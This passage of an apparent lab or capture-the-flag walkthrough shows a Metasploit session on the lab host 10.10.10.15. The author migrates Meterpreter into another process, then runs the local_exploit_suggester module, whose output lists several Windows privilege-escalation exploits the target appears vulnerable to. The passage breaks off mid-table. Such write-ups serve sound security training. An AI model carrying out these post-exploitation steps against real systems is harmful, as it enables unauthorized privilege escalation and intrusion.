 ```sh
meterpreter > migrate 2112
[*] Migrating from 2376 to 2112...
[*] Migration completed successfully.
```
{% endraw %}

<br />
Background the session and search for the local_exploit_suggester.  Set the session with the session number from before.  Run the exploit.

{% raw %}
```sh
meterpreter > 
Background session 1? [y/N]  y
[-] Unknown command: y. Run the help command for more details.
msf6 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester  .                normal  No     Multi Recon Local Exploit Suggester


Interact with a module by name or index. For example info 0, use 0 or use post/multi/recon/local_exploit_suggester

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit
[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 203 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42
[*] 10.10.10.15 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
```